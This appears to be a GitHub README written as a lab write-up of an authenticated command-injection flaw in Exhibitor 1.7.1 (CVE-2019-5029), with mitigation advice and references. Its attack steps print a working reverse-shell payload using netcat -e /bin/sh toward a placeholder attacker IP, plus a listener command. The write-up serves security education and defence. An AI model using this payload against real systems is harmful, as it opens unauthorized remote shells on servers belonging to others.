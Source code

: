 # Exhibitor v1.7.1 – Authenticated Remote Code Execution (Exploit-DB 48654)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All demonstrations were performed in a controlled lab environment.  
Unauthorized testing or exploitation of systems without explicit permission is illegal and unethical. The author is not responsible for any misuse of this information.

---

## 📌 What Is Exhibitor?

**Exhibitor** is a Java-based supervisor system used to manage Apache ZooKeeper nodes. It is commonly used for service discovery and configuration in distributed environments. Exhibitor provides a web-based interface to control and monitor ZooKeeper instances.

---

## 🚨 About the Vulnerability

A critical authenticated **Remote Code Execution (RCE)** vulnerability exists in **Exhibitor v1.7.1 and below**. This vulnerability is triggered when malicious OS commands are injected into the `java.env script` field of the web UI.

Once the configuration is saved, the command is executed under the context of the Java process running the application.

- **CVE ID**: CVE-2019-5029  
- **Affected Application**: Exhibitor <= 1.7.1  
- **Vulnerability Type**: Authenticated Remote Code Execution  
- **Exploit Type**: Command Injection via Web Interface  
- **Exploit Availability**: [Exploit-DB 48654](https://www.exploit-db.com/exploits/48654)

---

## ⚙️ Lab Setup

- **Target URL**: `http://exhibitor.vlab`  
- **Exhibitor Version**: 1.7.1  
- **Authentication**: Required  
- **Listener**: Netcat on port `3333`  
- **Payload Used**: 

```bash
$(/bin/nc -e /bin/sh <ATTACKER-IP> <PORT> &)
```

> 🔧 Replace `<ATTACKER-IP>` with your IP where Netcat is listening. Replace `<PORT>` with your port where Netcat is listening.

---

## 🚀 Attack Steps

1. **Log into the Exhibitor Web Interface**
   ![Login Page](./img/dashboard.png)

2. **Navigate to Config -> "java.env script" Field and Inject Reverse Shell Payload and Save Configuration**
   ![Payload Injection](./img/payload.png)

3. **Start Netcat Listener and Wait for Shell**
   ```bash
   nc -nvlp <PORT>
   ```
   ![Reverse Shell Received](./img/RCE.png)

---

## 🧠 Vulnerability Insights

The `java.env script` input field is intended to pass environment variables, but it does not properly sanitize special characters or command syntax. This allows a crafted payload like `$(...)` to be executed directly in the shell.

---

## 🔐 Mitigation

- Upgrade to the latest version of Exhibitor.
- Disable access to the configuration interface from public networks.
- Enforce strong authentication and access control policies.
- Monitor configuration changes and log shell execution anomalies.

---

## 📃 References

- [Exploit-DB Entry](https://www.exploit-db.com/exploits/48654)  
- [Pentest-Tools Analysis](https://pentest-tools.com/vulnerabilities-exploits/exhibitor-109-171-rce-vulnerability_5035)  
- [Original GitHub PoC](https://github.com/thehunt1s0n/Exihibitor-RCE)

---

## 📝 Medium Blog

Check out the full breakdown and narrative on my Medium blog:  
👉 **[Read the blog](https://medium.com/@cyberquestor)**

